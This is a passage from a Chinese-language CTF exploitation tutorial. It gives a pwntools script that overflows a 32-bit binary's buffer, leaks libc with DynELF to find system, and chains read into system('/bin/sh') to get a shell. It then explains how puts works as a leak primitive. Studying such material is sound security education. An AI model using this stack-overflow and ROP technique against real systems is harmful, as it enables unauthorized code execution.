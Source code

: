 ```python
read_plt = elf.plt['read']
read_got = elf.got['read']

vuln_addr = 0x08048484
start_addr = 0x080483d0
bss_addr = 0x0804a020
pppr_addr = 0x0804856c

def leak(addr):
    payload  = "A" * 112
    payload += p32(write_plt)
    payload += p32(vuln_addr)
    payload += p32(1)
    payload += p32(addr)
    payload += p32(4)
    io.send(payload)
    data = io.recv()
    log.info("leaking: 0x%x --> %s" % (addr, (data or '').encode('hex')))
    return data
d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
log.info("system address: 0x%x" % system_addr)

payload  = "A" * 112
payload += p32(read_plt)
payload += p32(pppr_addr)
payload += p32(0)
payload += p32(bss_addr)
payload += p32(8)
payload += p32(system_addr)
payload += p32(vuln_addr)
payload += p32(bss_addr)

io.send(payload)
io.send('/bin/sh\x00')
io.interactive()
```
该题除了这里使用 DynELF 的方法，在后面章节 6.3 中，还会介绍一种使用 ret2dl-resolve 的解法。

#### puts
```C
#include <stdio.h>

int puts(const char *s);
```
puts 函数使用的参数只有一个，即需要输出的数据的起始地址，它会一直输出直到遇到 `\x00`，所以它输出的数据长度是不容易控制的，我们无法预料到零字符会出现在哪里，截止后，puts 还会自动在末尾加上换行符 `\n`。该函数的优点是在 64 位程序中也可以很方便地使用。缺点是会受到零字符截断的影响，在写 leak 函数时需要特殊处理，在打印出的数据中正确地筛选我们需要的部分，如果打印出了空字符串，则要手动赋值`\x00`，包括我们在 dump 内存的时候，也常常受这个问题的困扰，可以参考章节 6.1 dump 内存的部分。

所以我们常常需要这样做：
```python
data = io.recv()[:-1]   # 去掉末尾\n
if not data:
    data = '\x00'
else:
    data = data[:4]
```
这只是个例子，还是要具体情况具体分析。
